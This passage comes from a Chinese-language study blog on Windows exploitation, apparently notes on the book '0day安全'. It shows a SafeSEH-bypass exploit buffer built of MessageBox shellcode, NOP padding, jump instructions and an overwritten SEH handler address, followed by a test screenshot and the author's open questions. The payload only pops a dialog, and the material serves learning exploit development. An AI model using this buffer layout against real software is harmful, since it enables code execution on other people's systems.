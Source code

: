 ```c
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x29\x00"
```

我把payload换成之前的Messagebox弹窗就可以了（只有168个字节，后面是40个nop填充，被覆盖也没关系）：

```c
char shellcode[] = 
// 168 messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// 40 nop
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x28\x00";
```

测试：

![Bildschirmfoto 2018-08-30 um 5.35.00 PM.png]({{ site.url }}/images/0day/DF1F9C7517617AF0767008F851FA3EB8.png)

其实整个过程中还有一些可以深入研究的东西，比如在进行异常处理时为什么`[ebp + 0x30]`处恰好就是SEH节点的后向指针呢？这应该与异常处理的机制有关。另外，为什么我的shellcode后面四个字节会被覆盖成0呢？是不是GS的一些机制我还不了解？(unsolved)

最后引用作者一句话：熟悉、可爱、活泼的对话框是不是又出现了？

## 利用Adober Flash Player ActiveX控件绕过SafeSEH

- [利用 Adobe Flash Player ActiveX 控件绕过 SafeSEH（问题及解决方法）](https://blog.csdn.net/Plus_RE/article/details/77451463)

我无法从Adobe官网下载旧版FLash Player，在网络上其他地方也没有找到，所以先略过本节。

---

**更新**
